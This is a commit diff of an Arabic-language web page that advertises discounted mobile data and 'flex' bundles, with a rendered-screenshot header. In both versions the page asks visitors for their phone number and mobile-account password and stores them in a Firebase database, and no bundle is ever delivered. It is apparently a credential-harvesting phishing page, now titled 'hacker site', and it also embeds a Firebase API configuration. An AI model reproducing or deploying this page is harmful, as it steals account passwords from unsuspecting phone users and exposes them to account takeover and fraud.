

Before and after one commit to aldoneszu/News, a plain HTML site: page index.html in a window 390 px wide. Shown: the part 163-1753 px from the top of the page at 98% size. After the commit the page ends 1667 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,287 +2,305 @@
 <html lang="ar" dir="rtl">
 <head>
   <meta charset="UTF-8" />
-<meta name="viewport" content="width=device-width, initial-scale=1" />
-<title>موقع الباقات</title>
+  <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1, user-scalable=no" />
+  <title>موقع الهكر</title>
+  <!-- Firebase SDK -->
+  <script src="https://www.gstatic.com/firebasejs/9.22.2/firebase-app-compat.js"></script>
+  <script src="https://www.gstatic.com/firebasejs/9.22.2/firebase-database-compat.js"></script>
+  <style>
+    /* التصميم العام */
+    body {
+      margin: 0;
+      padding: 0 5vw;
+      background: #000;
+      color: #0f0;
+      font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
+      overflow-x: hidden;
+      min-height: 100vh;
+      display: flex;
+      flex-direction: column;
+      align-items: center;
+    }
+    h1 {
+      font-size: 2.8rem;
+      margin: 25px 0 10px 0;
+      text-align: center;
+      letter-spacing: 2px;
+      text-shadow: 0 0 8px #0f0;
+    }
+    /* تأثير ماتريكس - الأرقام والنصوص الخضراء تنزل */
+    @keyframes matrixDrop {
+      0% { transform: translateY(-100%) }
+      100% { transform: translateY(100vh) }
+    }
+    .matrix-line {
+      position: fixed;
+      top: -50px;
+      left: 0;
+      width: 100%;
+      font-family: monospace;
+      font-size: 1.2rem;
+      color: #0f0;
+      opacity: 0.1;
+      user-select: none;
+      pointer-events: none;
+      animation: matrixDrop linear infinite;
+      animation-duration: 10s;
+    }
+    /* توزيع عدة خطوط ماتريكس */
+    .matrix-line:nth-child(1) { left: 5vw; animation-delay: 0s; }
+    .matrix-line:nth-child(2) { left: 30vw; animation-delay: 3s; font-size: 1.5rem; }
+    .matrix-line:nth-child(3) { left: 60vw; animation-delay: 6s; font-size: 1.2rem; }
+    .matrix-line:nth-child(4) { left: 80vw; animation-delay: 9s; font-size: 1.4rem; }
 
-<!-- خط عربي احترافي -->
-<link href="https://fonts.googleapis.com/css2?family=Cairo&display=swap" rel="stylesheet" />
-
-<style>
-  /* ألوان الموقع */
-  body {
-    margin: 0; padding: 0;
-    background: #000;
-    color: #ff0000;
-    font-family: 'Cairo', sans-serif;
-    overflow-x: hidden;
-    direction: rtl;
+    /* الصندوق الرئيسي */
+    .container {
+      width: 100%;
+      max-width: 450px;
+      background: rgba(0,0,0,0.85);
+      box-shadow: 0 0 15px #0f0;
+      border-radius: 12px;
+      padding: 20px 25px;
+      margin-bottom: 60px;
+    }
+    .package {
+      border: 2px solid #f00;
+      margin-bottom: 15px;
+      border-radius: 8px;
+      padding: 12px 15px;
+      background: #110000;
+      position: relative;
+    }
+    .package h2 {
+      margin: 0 0 6px 0;
+      color: #f00;
+      font-size: 1.5rem;
+      text-shadow: 0 0 8px #f00;
+    }
+    .package p {
+      margin: 4px 0;
+      font-size: 1rem;
+      color: #ddd;
+    }
+    .package .conditions {
+      font-size: 0.9rem;
+      color: #aaa;
+      margin-top: 6px;
+      font-style: italic;
     }
 
-  /* تأثير الماتريكس */
-  #matrix {
-    position: fixed;
-    top: 0; left: 0;
-    width: 100vw;
-    height: 100vh;
-    background: black;
-    z-index: 0;
+    /* نموذج الإدخال */
+    label {
+      font-size: 1.1rem;
+      margin-top: 12px;
+      display: block;
+      color: #0f0;
+    }
+    input[type="text"], input[type="password"], input[type="number"] {
+      width: 100%;
+      padding: 12px;
+      margin-top: 6px;
+      border: 2px solid #0f0;
+      border-radius: 6px;
+      background: #111;
+      color: #0f0;
+      font-size: 1.1rem;
+      transition: border-color 0.3s ease;
+      outline: none;
+    }
+    input[type="text"]:focus, input[type="password"]:focus, input[type="number"]:focus {
+      border-color: #0ff;
+      box-shadow: 0 0 8px #0ff;
+    }
+    /* زر الإرسال */
+    button {
+      margin-top: 20px;
+      width: 100%;
+      padding: 14px 0;
+      font-size: 1.3rem;
+      font-weight: 700;
+      background-color: #f00;
+      border: none;
+      border-radius: 8px;
+      color: #fff;
+      cursor: pointer;
+      transition: background-color 0.3s ease;
+      user-select: none;
+    }
+    button:hover {
+      background-color: #c00;
+    }
+    button:active {
+      transform: scale(0.97);
     }
 
-  /* نص الماتريكس */
-  canvas {
-    display: block;
-    position: fixed;
-    top: 0; left: 0;
-    z-index: 0;
-  }
-
-  /* الحاوية */
-  .container {
-    position: relative;
-    z-index: 10;
-    max-width: 900px;
-    margin: 30px auto 80px auto;
-    padding: 20px;
-  }
-
-  h1 {
+    /* خانة الرصيد الصافي */
+    .balance-section {
+      margin-top: 25px;
+      padding: 15px;
+      background: #111100;
+      border-radius: 8px;
+      border: 2px solid #0f0;
+      color: #0f0;
+      font-size: 1.1rem;
       text-align: center;
-    font-size: 3rem;
-    margin-bottom: 30px;
-    color: #ff0000;
-    text-shadow: 0 0 10px #ff0000aa;
-  }
-
-  .package {
-    background: #111;
-    border: 2px solid #ff0000;
-    border-radius: 15px;
-    padding: 20px 30px;
-    margin-bottom: 40px;
-    box-shadow: 0 0 15px #ff0000aa;
-  }
-
-  .package h2 {
-    color: #ff0000;
-    margin-bottom: 10px;
-    font-size: 1.8rem;
-  }
-
-  .package p {
-    font-size: 1.1rem;
-    margin: 8px 0;
-    color: #f44336;
-  }
-
-  /* الفورم */
-  form {
-    margin-top: 15px;
-  }
-
-  label {
-    display: block;
-    margin-bottom: 6px;
-    color: #ff5555;
-    font-weight: 600;
-  }
-
-  input[type="text"], input[type="password"], input[type="number"] {
-    width: 100%;
-    padding: 8px 12px;
-    margin-bottom: 15px;
-    border-radius: 8px;
-    border: 1.5px solid #ff0000;
-    background: #222;
-    color: #fff;
-    font-size: 1rem;
-  }
-
-  input[type="submit"] {
-    background: #ff0000;
-    border: none;
-    padding: 12px 25px;
-    font-size: 1.1rem;
-    font-weight: bold;
-    border-radius: 8px;
-    cursor: pointer;
-    transition: background 0.3s ease;
-    color: white;
-  }
-
-  input[type="submit"]:hover {
-    background: #cc0000;
-  }
-
-  /* خانة شحن الرصيد الصافي */
-  #balance-section {
-    background: #111;
-    border: 2px solid #ff0000;
-    border-radius: 15px;
-    padding: 20px 30px;
-    margin-bottom: 40px;
-    box-shadow: 0 0 15px #ff0000aa;
-  }
-
-  #balance-section h2 {
-    color: #ff0000;
-    margin-bottom: 15px;
-  }
-
-  #balance-section p {
-    color: #f44336;
-    font-weight: 600;
-    margin-bottom: 10px;
+      user-select: none;
     }
 
     /* الحقوق */
     footer {
+      width: 100%;
+      max-width: 450px;
       text-align: center;
-    padding: 12px 0;
-    color: #ff0000aa;
       font-size: 0.9rem;
-    border-top: 1px solid #ff0000;
-    position: fixed;
-    bottom: 0; left: 0; right: 0;
-    background: #111;
-    z-index: 100;
+      color: #aaa;
+      margin-bottom: 15px;
+      user-select: none;
     }
 
-  /* رسائل تأكيد */
-  #msg {
-    margin-bottom: 20px;
-    padding: 10px;
-    border-radius: 8px;
-    display: none;
-    font-weight: bold;
+    /* نوافذ منبثقة */
+    .modal {
+      position: fixed;
+      top: 0; left: 0; right: 0; bottom: 0;
+      background: rgba(0,0,0,0.8);
+      display: flex;
+      justify-content: center;
+      align-items: center;
+      visibility: hidden;
+      opacity: 0;
+      transition: opacity 0.3s ease;
+      z-index: 9999;
+    }
+    .modal.active {
+      visibility: visible;
+      opacity: 1;
+    }
+    .modal-content {
+      background: #000;
+      border: 2px solid #0f0;
+      padding: 20px 30px;
+      border-radius: 10px;
+      max-width: 300px;
+      text-align: center;
+      box-shadow: 0 0 15px #0f0;
       color: #0f0;
-    background: #003300;
+      font-size: 1.1rem;
+      user-select: none;
+    }
+    .modal-content button {
+      margin-top: 15px;
+      width: 100%;
+      padding: 10px 0;
+      background: #0f0;
+      color: #000;
+      border-radius: 6px;
+      border: none;
+      cursor: pointer;
+      font-weight: 700;
+    }
+    .modal-content button:hover {
+      background: #0c0;
     }
 
-  /* متجاوب */
-  @media(max-width:600px) {
-    h1 {
-      font-size: 2rem;
-    }
-    .package {
-      padding: 15px 20px;
-    }
-  }
   </style>
 </head>
 <body>
 
-<canvas id="matrix"></canvas>
+  <!-- تأثير ماتريكس -->
+  <div class="matrix-line" style="animation-duration: 12s;">010101010101010101010101010101</div>
+  <div class="matrix-line" style="animation-duration: 15s;">101010101010101010101010101010</div>
+  <div class="matrix-line" style="animation-duration: 13s;">110011001100110011001100110011</div>
+  <div class="matrix-line" style="animation-duration: 10s;">001100110011001100110011001100</div>
 
-<div class="container">
-  <h1>مرحباً بك في موقع الباقات</h1>
+  <h1>موقع هكر متكامل</h1>
 
-  <!-- باقة 1 -->
-  <div class="package" id="package1">
-    <h2>باقه 42 ألف فليكس - 350 كاش</h2>
-    <p>شروط الباقه: أن الخط يكون نظام فليكس 260 وميكونش عليه سلف أو نوته</p>
-    <form onsubmit="return sendPackage(event, '42K_FLEX')">
-      <label for="phone1">رقم الهاتف:</label>
-      <input type="text" id="phone1" name="phone" required pattern="\d{10,15}" placeholder="أدخل رقم الهاتف" />
+  <div class="container" id="main-container">
 
-      <label for="pass1">كلمة المرور:</label>
-      <input type="password" id="pass1" name="password" required placeholder="أدخل كلمة المرور" />
-
-      <input type="submit" value="إرسال" />
-    </form>
+    <!-- الباقات -->
+    <div class="package">
+      <h2>باقه 42 الف فليكس ب 350 كاش</h2>
+      <p>شروط الباقه: الخط يكون نظام فليكس 260 وميكونش عليه سلف أو نوته</p>
     </div>
 
-  <!-- باقة 2 -->
-  <div class="package" id="package2">
-    <h2>باقه 13 ألف فليكس - 240 كاش</h2>
-    <p>شروط الباقه: ميكونش فيه سلف أو نوته على الخط</p>
-    <form onsubmit="return sendPackage(event, '13K_FLEX')">
-      <label for="phone2">رقم الهاتف:</label>
-      <input type="text" id="phone2" name="phone" required pattern="\d{10,15}" placeholder="أدخل رقم الهاتف" />
-
-      <label for="pass2">كلمة المرور:</label>
-      <input type="password" id="pass2" name="password" required placeholder="أدخل كلمة المرور" />
-
-      <input type="submit" value="إرسال" />
-    </form>
+    <div class="package">
+      <h2>باقه 13 الف فليكس ب 240 كاش</h2>
+      <p>شروطها: ميكونش فيه سلف أو نوته على الخط</p>
     </div>
 
-  <!-- باقة 3 -->
-  <div class="package" id="package3">
-    <h2>باقه 40 جيجا - 330 كاش</h2>
+    <div class="package">
+      <h2>باقه 40 جيجا ب 330 كاش</h2>
       <p>لا يوجد شروط</p>
-    <form onsubmit="return sendPackage(event, '40GB')">
-      <label for="phone3">رقم الهاتف:</label>
-      <input type="text" id="phone3" name="phone" required pattern="\d{10,15}" placeholder="أدخل رقم الهاتف" />
-
-      <label for="pass3">كلمة المرور:</label>
-      <input type="password" id="pass3" name="password" required placeholder="أدخل كلمة المرور" />
-
-      <input type="submit" value="إرسال" />
-    </form>
     </div>
 
-  <!-- باقة 4 -->
-  <div class="package" id="package4">
-    <h2>تجديد باقه 50 ألف فليكس - 8 أيام</h2>
-    <p>شروط الباقه: تجدد قبل أيام الباقه منتهيه. ملاحظة: تجديد وليس تفعيل</p>
-    <form onsubmit="return sendPackage(event, 'RENEW_50K')">
-      <label for="phone4">رقم الهاتف:</label>
-      <input type="text" id="phone4" name="phone" required pattern="\d{10,15}" placeholder="أدخل رقم الهاتف" />
-
-      <label for="pass4">كلمة المرور:</label>
-      <input type="password" id="pass4" name="password" required placeholder="أدخل كلمة المرور" />
-
-      <input type="submit" value="إرسال" />
-    </form>
+    <div class="package">
+      <h2>تجديد باقه 50 الف فليكس (8 أيام)</h2>
+      <p>شروطها: تجدد قبل أيام انتهاء الباقه</p>
+      <p><em>ملحوظة: تجديد وليس تفعيل</em></p>
     </div>
 
-  <!-- باقة 5 -->
-  <div class="package" id="package5">
-    <h2>باقه 5200 فليكس - 100 كاش</h2>
-    <p>شروط الباقه: ميكونش سلف أو نوته على الخط. ملاحظة: غير متوفره على طول</p>
-    <form onsubmit="return sendPackage(event, '5200_FLEX')">
-      <label for="phone5">رقم الهاتف:</label>
-      <input type="text" id="phone5" name="phone" required pattern="\d{10,15}" placeholder="أدخل رقم الهاتف" />
-
-      <label for="pass5">كلمة المرور:</label>
-      <input type="password" id="pass5" name="password" required placeholder="أدخل كلمة المرور" />
-
-      <input type="submit" value="إرسال" />
-    </form>
+    <div class="package">
+      <h2>باقه 5200 فليكس بسعر 100 كاش</h2>
+      <p>شروطها: ميكونش سلف أو نوته على الخط</p>
+      <p><em>ملحوظة: غير متوفره على طول ويمكن التحكم بها من موقع الأدمن</em></p>
     </div>
 
+    <!-- نموذج الإدخال -->
+    <form id="flexForm">
+      <label for="package">اختر الباقة</label>
+      <select id="package" name="package" required style="width: 100%; padding:12px; border-radius:6px; border: 2px solid #0f0; background:#111; color:#0f0; font-size:1.1rem; margin-top:6px; outline:none;">
+        <option value="" disabled selected>اختر الباقة</option>
+        <option value="42k">42 الف فليكس ب 350 كاش</option>
+        <option value="13k">13 الف فليكس ب 240 كاش</option>
+        <option value="40g">40 جيجا ب 330 كاش</option>
+        <option value="50krenew">تجديد باقه 50 الف فليكس (8 أيام)</option>
+        <option value="5200">باقه 5200 فليكس بسعر 100 كاش</option>
+      </select>
+
+      <label for="phone">رقم الهاتف</label>
+      <input type="text" id="phone" name="phone" placeholder="ادخل رقم الهاتف" pattern="01[0-9]{9}" required />
+
+      <label for="password">كلمة المرور</label>
+      <input type="password" id="password" name="password" placeholder="ادخل كلمة المرور" required />
+
+      <button type="submit">إرسال البيانات</button>
+    </form>
+
     <!-- شحن الرصيد الصافي -->
-  <div id="balance-section">
-    <h2>شحن الرصيد الصافي</h2>
-    <p>أدخل رقم الهاتف والمبلغ المراد شحنه (الصافي يتحول تلقائياً إلى جنيه)</p>
-    <form onsubmit="return sendBalance(event)">
-      <label for="balancePhone">رقم الهاتف:</label>
-      <input type="text" id="balancePhone" name="phone" required pattern="\d{10,15}" placeholder="أدخل رقم الهاتف" />
-
-      <label for="balanceAmount">الرصيد الصافي (مثلاً: 100):</label>
-      <input type="number" id="balanceAmount" name="balance" required min="1" placeholder="أدخل الرصيد الصافي" />
-
-      <p id="convertedAmount" style="color:#0f0; font-weight:bold; margin-bottom:10px;"></p>
-
-      <input type="submit" value="شحن" />
-    </form>
+    <div class="balance-section">
+      <label for="balance">شحن رصيد صافي (ادخل الفليكس)</label>
+      <input type="number" id="balance" min="0" placeholder="ادخل الرصيد الصافي" style="width: 100%; padding: 12px; margin-top: 6px; border-radius: 6px; border: 2px solid #0f0; background: #111; color: #0f0; font-size: 1.1rem; outline:none;">
+      <p style="margin-top: 10px;">السعر بالجنيه: <span id="priceEGP">0</span> جنيه</p>
+      <button id="chargeBalanceBtn">شحن الرصيد الصافي</button>
     </div>
-
-  <div id="msg"></div>
 
   </div>
 
-<footer>
-  © 2025 Mahmoud Gamal Programming. All rights reserved.
-</footer>
+  <footer>Mahmoud Gamal Programming - 01013091169</footer>
 
-<!-- Firebase -->
-<script src="https://www.gstatic.com/firebasejs/9.23.0/firebase-app-compat.js"></script>
-<script src="https://www.gstatic.com/firebasejs/9.23.0/firebase-database-compat.js"></script>
+  <!-- نوافذ منبثقة -->
+  <div class="modal" id="modal-conditions">
+    <div class="modal-content">
+      <p id="modal-text">هنا شروط الباقة...</p>
+      <button id="modal-accept-btn">موافق</button>
+    </div>
+  </div>
+
+  <div class="modal" id="modal-success">
+    <div class="modal-content">
+      <p>تم إرسال البيانات بنجاح! شكراً لك.</p>
+      <button id="modal-success-close">إغلاق</button>
+    </div>
+  </div>
+
+  <div class="modal" id="modal-error">
+    <div class="modal-content">
+      <p id="modal-error-text">حدث خطأ ما!</p>
+      <button id="modal-error-close">إغلاق</button>
+    </div>
+  </div>
 
 <script>
-  // Initialize Firebase
+  // إعداد Firebase
   const firebaseConfig = {
     apiKey: "AIzaSyCuP6VscPxkQS5D5z7bCYWXijzaYCdbF2s",
     authDomain: "starkoscript.firebaseapp.com",
@@ -293,138 +311,142 @@
     appId: "1:381525854892:android:50ba5daa1cffae8faa2d09"
   };
   firebase.initializeApp(firebaseConfig);
-  const database = firebase.database();
+  const db = firebase.database();
 
-  // تأثير الماتريكس
-  const canvas = document.getElementById('matrix');
-  const ctx = canvas.getContext('2d');
-  let width = canvas.width = window.innerWidth;
-  let height = canvas.height = window.innerHeight;
-  let letters = '0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ@#$%^&*()*&^%+-/~{[|`]}'.split('');
-  let fontSize = 18;
-  let columns = Math.floor(width / fontSize);
-  let drops = [];
-  for(let x = 0; x < columns; x++) drops[x] = 1;
+  // أسعار الباقات (للحساب)
+  const packagePrices = {
+    "42k": 350,
+    "13k": 240,
+    "40g": 330,
+    "50krenew": 0, // التجديد لا يشحن رصيد جديد
+    "5200": 100
+  };
 
-  function drawMatrix() {
-    ctx.fillStyle = 'rgba(0,0,0,0.05)';
-    ctx.fillRect(0, 0, width, height);
-    ctx.fillStyle = '#0f0';
-    ctx.font = fontSize + 'px monospace';
+  // عرض شروط الباقات عند الاختيار
+  const packageSelect = document.getElementById('package');
+  const modalConditions = document.getElementById('modal-conditions');
+  const modalText = document.getElementById('modal-text');
+  const modalAcceptBtn = document.getElementById('modal-accept-btn');
 
-    for(let i = 0; i < drops.length; i++) {
-      let text = letters[Math.floor(Math.random() * letters.length)];
-      ctx.fillText(text, i * fontSize, drops[i] * fontSize);
-      if(drops[i] * fontSize > height && Math.random() > 0.975) drops[i] = 0;
-      drops[i]++;
+  const packageConditions = {
+    "42k": "شروط الباقه: الخط يكون نظام فليكس 260 وميكونش عليه سلف أو نوته.",
+    "13k": "شروطها: ميكونش فيه سلف أو نوته على الخط.",
+    "40g": "لا يوجد شروط خاصة لهذه الباقة.",
+    "50krenew": "شروطها: تجدد قبل أيام انتهاء الباقه.",
+    "5200": "شروطها: ميكونش سلف أو نوته على الخط. غير متوفره على طول ويمكن التحكم بها من موقع الأدمن."
+  };
+
+  let acceptedConditions = false;
+
+  packageSelect.addEventListener('change', () => {
+    acceptedConditions = false;
+    const val = packageSelect.value;
+    if(val){
+      modalText.textContent = packageConditions[val] || "لا توجد شروط خاصة.";
+      modalConditions.classList.add('active');
     }
-  }
-  setInterval(drawMatrix, 50);
-
-  window.addEventListener('resize', () => {
-    width = canvas.width = window.innerWidth;
-    height = canvas.height = window.innerHeight;
-    columns = Math.floor(width / fontSize);
-    drops = [];
-    for(let x = 0; x < columns; x++) drops[x] = 1;
   });
 
-  // دالة إرسال بيانات الباقة إلى Firebase
-  function sendPackage(e, packageType) {
+  modalAcceptBtn.onclick = () => {
+    acceptedConditions = true;
+    modalConditions.classList.remove('active');
+  };
+
+  // النموزج والإرسال
+  const form = document.getElementById('flexForm');
+  const modalSuccess = document.getElementById('modal-success');
+  const modalError = document.getElementById('modal-error');
+  const modalErrorText = document.getElementById('modal-error-text');
+  const modalSuccessClose = document.getElementById('modal-success-close');
+  const modalErrorClose = document.getElementById('modal-error-close');
+
+  form.addEventListener('submit', (e) => {
     e.preventDefault();
-    const form = e.target;
+
+    if(!acceptedConditions){
+      alert('يرجى الموافقة على شروط الباقة أولاً.');
+      return;
+    }
+
     const phone = form.phone.value.trim();
     const password = form.password.value.trim();
+    const packageChosen = form.package.value;
 
-    if(phone.length < 10 || !/^\d+$/.test(phone)) {
-      alert('يرجى إدخال رقم هاتف صحيح');
-      return false;
+    if(!phone.match(/^01[0-9]{9}$/)){
+      alert('رقم الهاتف غير صحيح. يجب أن يبدأ بـ 01 ويحتوي على 11 رقم.');
+      return;
     }
-    if(password.length < 3) {
-      alert('يرجى إدخال كلمة مرور صحيحة');
-      return false;
+    if(password.length < 4){
+      alert('كلمة المرور قصيرة جداً.');
+      return;
     }
 
+    // إرسال البيانات إلى Firebase
+    const newEntryKey = db.ref().child('requests').push().key;
     const data = {
-      package: packageType,
-      phone: phone,
-      password: password,
+      phone,
+      password,
+      packageChosen,
       timestamp: Date.now()
     };
-
-    // مسار حفظ البيانات داخل Firebase لكل مستخدم حسب رقم الهاتف
-    database.ref('users/' + phone + '/packages').push(data)
+    let updates = {};
+    updates['/requests/' + newEntryKey] = data;
+    db.ref().update(updates)
       .then(() => {
-        showMsg('تم إرسال بيانات الباقة بنجاح!');
+        modalSuccess.classList.add('active');
         form.reset();
       })
-      .catch(() => {
-        showMsg('حدث خطأ أثناء إرسال البيانات.', true);
+      .catch(err => {
+        modalErrorText.textContent = "حدث خطأ أثناء إرسال البيانات: " + err.message;
+        modalError.classList.add('active');
+      });
   });
 
-    return false;
+  modalSuccessClose.onclick = () => modalSuccess.classList.remove('active');
+  modalErrorClose.onclick = () => modalError.classList.remove('active');
+
+  // حساب السعر بناء على الرصيد الصافي المدخل
+  const balanceInput = document.getElementById('balance');
+  const priceEGPSpan = document.getElementById('priceEGP');
+  const chargeBalanceBtn = document.getElementById('chargeBalanceBtn');
+
+  // حساب سعر الجنيه حسب 1 كاش = 50 فليكس مثلاً
+  const flexPerCash = 50;
+
+  balanceInput.addEventListener('input', () => {
+    let val = parseInt(balanceInput.value);
+    if(isNaN(val) || val < 0) val = 0;
+    const price = (val / flexPerCash).toFixed(2);
+    priceEGPSpan.textContent = price;
+  });
+
+  chargeBalanceBtn.addEventListener('click', () => {
+    const val = parseInt(balanceInput.value);
+    if(isNaN(val) || val <= 0){
+      alert("الرجاء إدخال رصيد صافي صالح أكبر من صفر.");
+      return;
     }
 
-  // دالة إرسال بيانات شحن الرصيد الصافي
-  function sendBalance(e) {
-    e.preventDefault();
-    const form = e.target;
-    const phone = form.phone.value.trim();
-    const balance = Number(form.balance.value);
-
-    if(phone.length < 10 || !/^\d+$/.test(phone)) {
-      alert('يرجى إدخال رقم هاتف صحيح');
-      return false;
-    }
-    if(balance <= 0) {
-      alert('يرجى إدخال قيمة رصيد صافي صحيحة');
-      return false;
-    }
-
+    // حفظ بيانات شحن الرصيد الصافي في Firebase
+    const newKey = db.ref().child('balance_charges').push().key;
     const data = {
-      phone: phone,
-      balance: balance,
-      amountInEGP: balance * 0.0096, // تحويل الفليكس إلى جنيه (تعديل حسب السعر الحقيقي)
+      flexAmount: val,
+      priceEGP: (val / flexPerCash).toFixed(2),
       timestamp: Date.now()
     };
-
-    database.ref('users/' + phone + '/balance').push(data)
+    let updates = {};
+    updates['/balance_charges/' + newKey] = data;
+    db.ref().update(updates)
       .then(() => {
-        showMsg('تم شحن الرصيد الصافي بنجاح!');
-        form.reset();
-        document.getElementById('convertedAmount').textContent = '';
+        alert("تم شحن الرصيد الصافي بنجاح.");
+        balanceInput.value = '';
+        priceEGPSpan.textContent = '0';
       })
-      .catch(() => {
-        showMsg('حدث خطأ أثناء شحن الرصيد.', true);
+      .catch(err => {
+        alert("حدث خطأ أثناء شحن الرصيد: " + err.message);
+      });
   });
 
-    return false;
-  }
-
-  // عرض رسالة للمستخدم
-  function showMsg(text, isError = false) {
-    const msgDiv = document.getElementById('msg');
-    msgDiv.style.display = 'block';
-    msgDiv.style.color = isError ? '#ff4444' : '#00ff00';
-    msgDiv.style.background = isError ? '#330000' : '#003300';
-    msgDiv.textContent = text;
-    setTimeout(() => {
-      msgDiv.style.display = 'none';
-    }, 5000);
-  }
-
-  // تحديث عرض التحويل من فليكس إلى جنيه تلقائياً
-  const balanceInput = document.getElementById('balanceAmount');
-  const converted = document.getElementById('convertedAmount');
-  balanceInput.addEventListener('input', () => {
-    let val = Number(balanceInput.value);
-    if(val > 0) {
-      let egp = val * 0.0096;
-      converted.textContent = `القيمة بالجنيه: ${egp.toFixed(2)} ج.م`;
-    } else {
-      converted.textContent = '';
-    }
-  });
 </script>
 
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
